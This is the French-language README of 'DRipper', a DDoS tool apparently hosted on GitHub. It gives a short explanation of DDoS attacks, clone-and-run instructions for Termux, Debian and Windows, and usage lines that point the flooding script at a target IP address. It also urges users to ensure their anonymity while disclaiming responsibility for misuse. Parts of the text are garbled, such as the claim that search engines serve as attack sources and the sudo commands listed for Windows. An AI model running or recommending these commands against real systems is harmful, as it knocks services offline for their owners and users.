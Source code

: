 # ddos
Attaque ddos :

Un serveur d'attaque par déni de service distribuable (DDOS) qui coupe les cibles ou l'infrastructure environnante dans un flot de trafic Internet

Les attaques DDoS sont efficaces en utilisant plusieurs systèmes informatiques compromis comme source de trafic d'attaque. Les moteurs de recherche peuvent inclure des ordinateurs et d'autres ressources réseau telles que des appareils IoT.
D'un niveau supérieur, l'attaque DDOS est comme un embouteillage inattendu bloqué sur une autoroute, empêchant le trafic régulier d'atteindre sa destination.

## REMARQUE (Veuillez vous assurer que vous avez installé python 3 )

(https://user-images.githubusercontent.com/49250151/96265488-57e53d00-0f7a-11eb-8936-ce2e9a2c42cd.PNG)

## Pour Termux

Pour utiliser le DRipper, tapez les commandes suivantes dans Termux :

pkg install git -y

pkg install python -y

pkg install python3 -y

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py 

## USGAE

python3 DRipper.py -s [ip Address] -t 135

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

## Pour les distributions GNU/Linux basées sur Debian
Pour utiliser l'application, tapez les commandes suivantes dans le terminal GNU/Linux.

sudo apt install git

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py OU python2 DRipper.py

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

## Pour Windows

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py OU python DRipper.py

python3 DRipper.py -s [ip Address] -t 135

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

# Noter:
Si vous rencontrez des problèmes, veuillez écrire à akkinnator@gmail.com. Ne pas utiliser pour se venger ! Assurez-vous de votre anonymat!
Il est fait uniquement à des fins de test.
Nous ne sommes pas responsables des abus ou des dommages causés par ce programme. Uniquement à des fins éducatives.
Merci.
 
## Exigences ▶

●🖥Système d'exploitation Linux (Kali 🐉 Ubuntu)

●📱Termux >

●🖥Fenêtres

# Modifié par Akkinntor
